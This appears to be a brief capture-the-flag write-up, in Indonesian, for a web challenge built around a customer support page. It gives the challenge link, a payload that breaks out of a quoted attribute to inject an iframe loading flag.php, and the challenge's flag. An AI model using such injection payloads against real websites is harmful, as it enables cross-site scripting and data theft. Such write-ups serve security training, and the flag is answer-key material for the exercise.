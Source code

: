 Mimin ada buat halaman costumer support ini, akan tetapi dia hanya melakukan perintah yang tersedia saja. Coba dicek aja deh :D

Link : https://web.ctf.rasyidmf.com/chal37/

Payload:
```
FOLLOW("><iframe src='flag.php'<></iframe>Yo
```

Flag
```
CTFR{s0m3_345y_ch4ll3ng3_w1th_b451c_x55}
```